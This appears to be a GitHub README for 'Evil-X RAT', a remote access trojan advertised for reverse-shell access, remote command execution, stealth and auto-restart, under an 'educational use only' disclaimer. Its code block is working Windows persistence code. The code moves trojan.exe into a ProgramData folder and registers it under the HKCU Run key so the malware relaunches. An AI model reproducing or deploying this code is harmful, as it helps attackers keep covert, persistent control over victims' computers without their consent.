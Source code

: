# Evil-X RAT

**Evil-X RAT** is a malicious remote administration tool designed for educational and research purposes in the field of cybersecurity. This tool creates a reverse shell on a targeted device, enabling remote access and control.

## Features

- **Bidirectional Communication**: Facilitates seamless communication between the attacker's server and the victim's device.
- **Remote Command Execution**: Allows the execution of pre-defined and custom commands on the victim's machine.
- **Stealth Operation**: Operates quietly to avoid detection while maintaining functionality.
- **Auto-Restart Mechanism**: Ensures the malware restarts automatically if the process is terminated.

> **Disclaimer**: This tool is intended for ethical hacking and educational use only. Unauthorized access to systems is illegal and punishable by law. Always obtain explicit permission before testing any systems.

## Code Example

Here’s a basic implementation of an auto-restart mechanism for the malware.

```python
import subprocess
import os
import getpass
import shutil
import winreg
import sys

MAIN_MALWARE_DIST = "C:\ProgramData"
SUB_MALWARE_DIST = os.path.join(MAIN_MALWARE_DIST, "n3wrattool")

if os.path.exists(SUB_MALWARE_DIST):
    sys.exit()

os.mkdir(SUB_MALWARE_DIST)

EXE_NAME = "trojan.exe"
REG_EXE_ADDRESS = os.path.join(SUB_MALWARE_DIST, EXE_NAME)
shutil.move("trojan.exe", SUB_MALWARE_DIST)

key = winreg.OpenKey(
    winreg.HKEY_CURRENT_USER,
    "Software\Microsoft\Windows\CurrentVersion\Run",
    0,
    winreg.KEY_ALL_ACCESS,
)
winreg.SetValueEx(key, "Evil-X Rat", 0, winreg.REG_SZ, REG_EXE_ADDRESS)
key.Close()

```

